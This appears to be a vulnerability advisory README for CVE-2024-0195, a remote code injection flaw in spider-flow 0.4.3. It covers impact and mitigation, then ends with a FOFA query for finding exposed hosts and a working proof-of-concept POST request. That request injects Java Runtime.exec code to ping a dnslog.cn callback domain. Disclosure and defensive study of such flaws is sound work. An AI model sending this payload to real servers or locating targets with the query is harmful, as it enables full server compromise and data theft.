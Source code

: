 # CVE-2024-0195 Improper Control of Generation of Code ('Code Injection')

# Summary
CVE-2024-0195 is a critical code injection vulnerability in the spider-flow 0.4.3 web application, specifically in the FunctionService.saveFunction function of the FunctionController.java file. An attacker can remotely inject malicious code which gets executed on the server. This allows complete compromise of the application.

# Impact
This vulnerability is extremely severe as it allows remote code execution on the server hosting the vulnerable spider-flow application. An attacker could fully compromise the server, steal sensitive data, install malware or crypto miners, and use it for further attacks inside the network. The confidentiality, integrity and availability of the application and server are all critically impacted.

# Patch
A patched version is not explicitly mentioned, so patching currently does not seem to be an option. The vulnerability was publicly disclosed and exploits are available, so immediate mitigation is critical.

# Mitigation
Until an official patch is released, spider-flow 0.4.3 should be immediately taken offline or access restricted only to trusted networks/users. Web application firewalls or other input validation controls could potentially be configured to detect and block attempted code injection attacks as an interim mitigation. However, these are not full solutions and the vulnerable version should be upgraded as soon as a fixed release is available.

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H


# Exploitation
FOFA : app="spiderflow"

✔ Proof of concept 

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```
